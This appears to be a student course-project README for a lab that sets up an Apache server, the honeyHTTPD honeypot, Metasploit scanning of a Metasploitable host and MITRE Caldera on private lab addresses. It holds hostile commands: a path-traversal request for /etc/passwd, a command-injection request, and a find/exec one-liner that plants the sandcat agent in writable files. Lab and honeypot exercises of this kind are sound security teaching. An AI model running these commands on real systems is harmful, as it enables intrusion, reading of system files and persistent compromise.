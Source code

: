 # group9-344
ICS3444 project
To run apache2:
- sudo apt install apache2 -y.
- sudo systemctl start apache2


# Honeypot (honeyHTTPD) setup:
1- clone repo: Using command git clone https://github.com/bocajspear1/honeyhttpd.git
2- Navigate to the Directory honeyhttpd
3- intall vitual enviroment: sudo apt install python3-venv
4- create vitual enviroment: python3 -m venv venv
5- activate it: source venv/bin/activate
6- install dependencies: pip install -r requirements.txt
7- use this command to generate keys: Using command openssl req -x509 -newkey rsa:2048 -keyout server.key -out server.pem -days 365 -nodes
8- copy the config.json.default to config.json and add in it "key_path": "server.key" after "cert_path": "server.pem",
Then use start.py --config config.json to start the honeypot

# Kali Metasploitable commands:
1- "nmap -sV 192.168.56.104"
2- "sudo msfconsole"
3- "search apache"
4- choose a general service auxiliary/scanner/http/apache_userdir_enum
5- "set RHOSTS 192.168.56.104"
6- "use auxiliary/scanner/http/apache_userdir_enum"
7- "exploit"
# Caldera commands:
-curl http://192.168.56.104
-clone to caldera: git clone https://github.com/mitre/caldera.git --recursive
-python3 server.py --insecure
-curl http://192.168.13.165:80
-curl http://192.168.13.165:80/../../../../etc/passwd
-curl "http://192.168.13.165:80/execute?cmd=ls"
-For excutable files: find / -type f -size -500k -maxdepth 5 -perm -333 2>/dev/null -exec sh -c 'grep -qF "54NDC47_SCRIPT" "{}" || echo "#54NDC47_SCRIPT\n" "chmod +x sandcat.go-linux && sandcat.go-linux" >> "{}"; ls "{}" ' \; | echo "complete"
-and more inner operations within Caldera ( not manual)


# Custom Scripts:
- nano /var/www/html/vulnerable_page.php
- create vunrable code
- use comprimizing code above ( victim scripts or honey scritps )
